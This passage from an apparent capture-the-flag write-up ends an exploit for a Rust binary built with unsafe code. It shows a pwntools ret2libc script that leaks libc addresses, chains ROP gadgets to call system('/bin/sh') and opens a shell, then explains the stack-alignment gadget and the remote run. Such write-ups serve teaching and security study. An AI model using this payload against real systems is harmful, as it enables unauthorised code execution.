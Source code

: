 ```python
    log.info(f"Base address of Libc --> {hex(libc_base)}")
    log.info(f"Libc '/bin/sh' --> {hex(libc_binsh)}")
    log.info(f"Libc 'system()' --> {hex(libc_system)}")

    # Find ROP gadgets
    pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0] + libc_base
    ret = rop.find_gadget(["ret"])[0] + libc_base

    # Build final chain
    payload = b"A" * BUF_SIZE
    payload += p64(pop_rdi)
    payload += p64(libc_binsh)
    payload += p64(ret) # Needed for stack alignment shenanigans
    payload += p64(libc_system)

    io.sendline(payload)
    io.interactive()


if __name__ == "__main__":
    main()
```

The one important thing to note is the extra `ret` gadget in the payload. This is needed in order to fix a [stack alignment issue](https://ropemporium.com/guide.html#common-pitfalls) that can happen and will cause a _segmentation fault_ on a `MOVAPS` instruction. 

Enjoy your shell and flag!

`$ python3 exploit.py REMOTE`

![](/images/Pasted%20image%2020220814143033.png)
_Fig. 7 - Running the exploit_

## Conclusion

This challenge was nothing new in terms of the exploitation methods used but it was unique in that the challenge was written in Rust (_in an unsafe way of course_). It was very refreshing to explore a familiar exploit in a different environment than your typical _C_ program. This type of challenge is an excellent way to show how developers can still introduce vulnerabilities into a program even though the language is designed to prevent memory corruption. Just remember to really understand what you are doing anytime you are required to use a keyword that is `unsafe`.
